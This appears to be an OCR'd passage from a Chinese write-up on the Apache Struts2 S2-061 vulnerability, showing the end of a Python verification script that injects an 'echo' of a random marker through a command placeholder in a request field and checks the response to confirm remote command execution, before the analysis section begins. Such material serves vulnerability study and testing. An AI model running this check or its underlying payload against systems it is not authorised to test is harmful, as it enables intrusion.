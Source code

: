 ```python
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
        
        try:
            check_payload = {
                'name': self.payload['name'].replace('cmd_data', 'echo ' + self.capta),
                'age': ''
            }
            check_req = requests.post(self.url, data = check_payload, headers = self.headers)
            check_str = re.sub('\n', '', check_req.text)
            result = re.findall('<input type="text" name="name" value=".*? id="(.*?)"/>', check_str)
            if self.capta in result[0]:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_061 = S2_061_BaseVerify('http://localhost:8080/s2_061_war_exploded/index.action')
    print(S2_061.run())
```

## 漏洞分析

首先Struts2的运行流程是
